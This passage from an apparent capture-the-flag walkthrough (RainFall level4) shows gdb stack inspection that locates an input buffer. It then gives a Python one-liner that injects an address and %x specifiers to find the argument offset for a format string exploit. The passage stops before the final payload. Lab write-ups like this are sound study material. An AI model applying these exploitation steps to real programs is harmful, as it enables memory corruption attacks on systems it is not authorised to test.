 Inspect stack memory:

```gdb
(gdb) x/40x $esp
0xbffff510:     0xbffff520      0x00000200      0xb7fd1ac0      0xb7ff37d0
0xbffff520:     0x41414141      0xb7e2000a      0x00000001      0xb7fef305
0xbffff530:     0xbffff588      0xb7fde2d4      0xb7fde334      0x00000007
0xbffff540:     0x00000000      0xb7fde000      0xb7fff53c      0xbffff588
0xbffff550:     0x00000040      0x00000b80      0x00000000      0xb7fde714
0xbffff560:     0x00000098      0x0000000b      0x00000000      0x00000000
0xbffff570:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff580:     0x00000000      0xb7fe765d      0xb7e3ebaf      0x08048285
0xbffff590:     0x00000000      0x00000000      0x00000000      0xb7fe749f
0xbffff5a0:     0xb7fd5000      0x00000002      0x08048240      0xb7fffc00
```

Look for `0x41414141` (our "AAAA") to confirm buffer location.

Check the base pointer and confirm buffer location:

```gdb
(gdb) info registers
eax            0xbffff520       -1073744608
esp            0xbffff510       0xbffff510
ebp            0xbffff728       0xbffff728
```

Now compute the address of the buffer:

```gdb
(gdb) print $ebp - 0x208
$1 = 0xbffff520
```

We also inspect the stack directly:

```gdb
(gdb) x/40x $esp
0xbffff510:     0xbffff520      0x00000200      0xb7fd1ac0      0xb7ff37d0
0xbffff520:     0x41414141      0xb7e2000a      0x00000001      0xb7fef305
0xbffff530:     0xbffff588      0xb7fde2d4      0xb7fde334      0x00000007
0xbffff540:     0x00000000      0xb7fde000      0xb7fff53c      0xbffff588
0xbffff550:     0x00000040      0x00000b80      0x00000000      0xb7fde714
```

We observe our input `AAAA` as `0x41414141` at address `0xbffff520`, which matches the value of `$ebp - 0x208`. This confirms that the buffer used by `fgets()` is located exactly where expected, and our input is reliably accessible for format string exploitation.

---

### Step 3: Inject Address and Identify Argument Offset

Let's test where our injected address appears on the stack. Use:

```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08 %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"' | ./level4
```
